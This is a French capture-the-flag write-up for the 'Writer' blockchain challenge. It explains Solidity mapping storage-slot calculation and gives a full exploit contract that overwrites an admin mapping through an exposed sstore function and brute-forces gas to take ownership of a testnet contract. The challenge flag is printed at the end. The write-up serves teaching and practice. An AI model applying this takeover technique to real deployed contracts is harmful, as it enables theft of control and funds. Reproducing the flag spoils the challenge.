

# Writer - WriteUp

<div align="center">
  <a href="https://hackynov.fr"></a>
</div>

## Contexte

Les challenges Blockchain se déploient et se vérifient sur une autre plateforme qui ressemble à ça :


**La description du challenge :**

```
Utilisez vos connaissances sur la blockchain pour devenir owner de l'instance du contrat WriterTarget que vous pourrez déployer sous certaines conditions.

Vous utiliserez le réseau de test Sepolia pour faire vos challenges.
```

| Nom du challenge | Catégorie  | Nombre de points | Nombre de résolution |
| ---------------- | ---------- | ---------------- | -------------------- |
| Writer           | Blockchain | 450              | 2                    |

## Déploiement du challenge

La première étape avant de se lancer dans la résolution de `Writer` est de connecter son wallet à la plateforme. Il suffit d'avoir un wallet à disposition (par exemple <a href="https://metamask.io/">Metamask</a>) et de quelques **$ETH** de test sur le réseau **Sepolia**. (que vous pouvez récupérer gratuitement sur des faucet comme <a href="https://www.alchemy.com/faucets/ethereum-sepolia">Alchemy</a> ou <a href="https://www.infura.io/faucet/sepolia">Infura</a>)

Un fois cela fait, vous pouvez cliquer sur le bouton `CONNECT` en haut à droite et connecter votre wallet.

Vous pouvez à présent cliquer plus sur le bouton `DÉPLOYER UNE INSTANCE DU CONTRAT` qui aura pour effet de déployer une instance spécialement pour vous. Son adresse s'affichera sur la page et dans la console une fois la transaction traîtée.

Quand vous pensez avoir réussi le challenge, cliquer sur `VÉRIFIER L'INSTANCE`. Vous devrez alors valider deux transactions et si vous avez bel et bien réussi, alors le flag s'affichera sur la page et dans la console.

Introduction terminée, passons à la résolution du challenge !

## Solution

Après avoir déployé votre instance du contrat, nous allons récupérer son adresse et son code pour le charger dans notre éditeur <a href="https://remix.ethereum.org/">Remix IDE</a>


On connecte bien son wallet sur Remix en utilisant l'environnement de déploiement `"Injected Provider"` et on se met sur le réseau de test Sepolia.
On compile le code du contrat à pirater et on colle l'adresse de notre instance dans la partie `At Address` en bas à gauche. On clique ensuite sur ce m^me bouton pour charger notre instance et intéragir avec.



Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de devenir owner du contrat. On voit une fonction `getOwner()` en visibilité public : en l'appelant on récupère owner actuel qui n'est évidemment pas notre adresse de wallet.

### Analyse du code

Nous devons dans un premier temps réussir à déployer notre instance du contrat `WriterTarget`. Pour ce faire nous devons devenir admin du contrat. Cette information est stocké dans le mapping `s_userPerSiteIsAdmin`.

Nous avons accès à une fonction assembleur `sstore()` qui permet de réécrire dans le storage du contrat. Nous allons l'utiliser pour inscrire notre adresse dans le mapping en admin.

Pour ce faire, nous devons calculer l'emplacement (le Slot) du storage où cette information est et sera stocké.

Exemple :

```js
mapping(uint256 => uint256) public stockage;

/**
 * Pour écrire dans stockage[5] le nombre 10
 * soit stockage[5] = 10
 *
 * La déclaration du mapping est au Slot 0
 * Le premier argument de la fonction sstore est l'emplacement (slot) de la donnée. Il est calculé comme ça pour notre cas :
 * uint256 x = uint256(keccak256(abi.encode(5, 0)));
 * Le deuxième argument est la data qu'on veut inscrire, ici 10.
 * uint256 data = 10;
 *
 * Appel de la fonction sstore() :
 * sstore(x, data)
 *
 * Si nous regardons ce que storage[5] contient, il contiendra 10.
 *
 * Pour un mapping de mapping, il faut faire la même chose mais deux fois. Une fois qu'on a calculé l'emplacement du mapping de mapping, on appelle la fonction sstore().
```

Voici le contrat de solution avec pour devenir admin :

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Writer.sol";

contract WriterSolution {
    Writer writer;

    constructor(address writerAddress) {
        writer = Writer(writerAddress);
    }

    function becomeAdmin() external {
        uint256 x = uint256(keccak256(abi.encode(0, 3)));
        writer.write(uint256(keccak256(abi.encode(address(msg.sender), x))), true);
    }

    function takeOwnership() external {
        address targetAddress = writer.getWriterTargetInstanceAddress();
        for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = targetAddress.call{gas: i + (7743 * 3)}(abi.encodeWithSignature("changeOwner()"));
            if (success) {
                break;
            }
        }
    }
}
```

La fonction `becomeAdmin()` permet de devenir admin.

Nous pouvons ensuite déployer notre instance de `WriterTarget` et appeler la fonction pour devenir owner.

Il faut juste faire attention à faire une transaction avec le bon multiple de gas. On peut faire ça simplement grâce à la fonction dans mon contrat de solution plus haut.

Une fois ces deux fonctions appelé, nous sommes owner de l'instance de `WriterTarget`.

### Envoi de l'instance pour vérification

Nous avons atteint l'objectif, c'est à dire devenir owner du contrat, nous pouvons donc retourner sur la plateforme pour faire vérifier notre instance.
Il suffit de cliquer sur le bouton `VÉRIFIER L'INSTANCE` et de valider les deux transactions qui vont apparaître.
Si tout est bon, alors le flag s'affichera sur la page et dans la console.

**BRAVO !**

FLAG : **HN0x03{U_4r3_tH3_81g_80sS\_!}**
